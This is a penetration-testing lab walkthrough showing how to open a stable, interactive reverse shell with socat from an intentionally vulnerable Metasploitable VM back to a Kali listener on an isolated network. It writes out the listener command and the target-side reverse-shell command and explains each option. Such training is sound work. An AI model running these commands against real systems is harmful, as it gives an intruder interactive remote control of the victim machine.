


- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to stabilise a shell with socat.

**Lab Purpose:**

Socat is a command line-based utility that established two bi-directional byte streams and transfers data between them. Socat can be used for many different purposes due to its versatility.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using socat to create a stable reverse shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Socat comes pre-installed on Kali Linux. The main difference between netcat and socat is that the syntax for using socat is more difficult to understand. Socat is used to make connections between two points. These points can be anything. We will begin by creating a reverse shell connecting our Kali VM to our Metasploitable VM. We first need to establish a listener on our Kali VM.

One of the reasons you might use socat over netcat for establishing a shell is because we can establish a fully stable shell much more quickly and with greater ease.

First, let’s find out the eth0 IP address of our Kali VM and write it down. We will use this information on our Metasploitable VM. Open a terminal screen in Kali VM and type this command:

ifconfig

192.168.56.103 is the IP address of our Kali VM in this case.

Then, establish a new listener on our Kali VM by typing the following:

socat TCP-L:8080 FILE:`tty`,raw,echo=0

This command will establish a listener on the port we specify. It will also allocate a new tty and set the echo to zero from start, meaning we don’t have to specify this later like we did with netcat (by hitting CTRL+Z and then typing “stty raw -echo; fg”).

### Task 3:

A normal socat listener can be connected to with any payload, but this new listener cannot. We will need to use a specific socat command in order to connect to this listener. For this to work, our target must have socat installed.

We will now switch to our Metasploitable VM. The specific command we will be typing into the terminal in our Metasploitable VM looks like the following:

socat TCP:192.168.56.103:8080 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane

Do not break this command above using enter when typing into the terminal screen!

The first section will connect the Metasploitable VM back to our Kali VM on the port specified.

- The EXEC:”bash -li” creates an interactive bash shell for us to use
- pty allocates a pseudoterminal on the target, which is required as part of the stabilisation process
- stderr makes sure any error messages we may encounter get shown in the shell, which doesn’t happen with a non-interactive shell
- sigint – If we hit ctrl + c while in the shell, it will now be passed to any processes we are running in the shell, which allows us to kill processes and commands in the shell
- setsid will create the process in a new session
- sane will stabilise the terminal and attempt to normalise it

If we return to our Kali terminal and attempt to execute commands such as “id” and “whoami”, we can see that we have successfully established a shell to our metasploitable machine.

This is a fully stable reverse shell and it is also interactive, as you can see interactive processes such as SSH will work. You will also notice that ctrl + c will not kill the shell. You will also notice the msfadmin@metasploitable:~$ indicating that we have a fully featured shell on the target.

Socat can establish a more stable shell on a target with little effort. The main problem with using this tool is ensuring that the target has the tool installed.